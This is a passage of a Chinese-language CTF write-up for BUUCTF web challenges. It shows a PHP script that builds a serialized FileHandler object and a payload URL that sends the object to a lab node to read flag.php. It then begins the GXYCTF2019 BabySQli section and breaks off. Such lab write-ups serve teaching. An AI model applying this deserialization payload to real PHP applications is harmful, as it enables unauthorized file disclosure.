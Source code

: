 ```php
<?php
class FileHandler {
    public $op=2;
    public $filename="flag.php";
    public $content='';

}
$a = new FileHandler();
$b = serialize($a);
echo $b; 
?>
```

运行结果:

```
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";s:0:"";}
```

那么payload: (如果直接在浏览器的url框里输入的话,还需要手动进行一次url编码)

```
http://92545990-4fc0-4d2e-b817-e5ac4b33b072.node4.buuoj.cn:81/?str=O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";s:0:"";}
```

查看源码得到flag

<img src="/images/buuctf-web/image-20221017192403857.png" alt="image-20221017192403857" style="zoom:67%;" />



<br>

***

<br>



# [GXYCTF2019]BabySQli



在尝试各种方法注入的过程中,发现返回内容中有一串字符:
